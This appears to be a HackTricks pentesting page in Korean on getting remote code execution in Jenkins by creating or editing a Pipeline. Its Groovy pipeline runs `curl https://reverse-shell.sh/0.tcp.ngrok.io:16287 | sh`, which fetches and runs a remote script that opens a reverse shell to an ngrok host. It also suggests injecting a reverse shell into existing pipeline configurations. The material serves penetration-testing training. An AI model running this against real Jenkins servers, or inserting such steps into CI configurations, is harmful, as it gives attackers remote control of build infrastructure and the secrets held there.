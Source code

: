# Jenkins RCE Creating/Modifying Pipeline

{{#include ../../banners/hacktricks-training.md}}

## 새로운 파이프라인 만들기

"New Item"에서 (`/view/all/newJob`에서 접근 가능) **Pipeline**을 선택합니다:

![](<../../images/image (235).png>)

**Pipeline 섹션**에 **reverse shell**을 작성합니다:

![](<../../images/image (285).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
마지막으로 **Save**를 클릭하고 **Build Now**를 클릭하면 파이프라인이 실행됩니다:

![](<../../images/image (228).png>)

## 파이프라인 수정

구성된 일부 파이프라인의 구성 파일에 접근할 수 있다면, **리버스 셸을 추가하여 수정**한 다음 실행하거나 실행될 때까지 기다릴 수 있습니다.

{{#include ../../banners/hacktricks-training.md}}
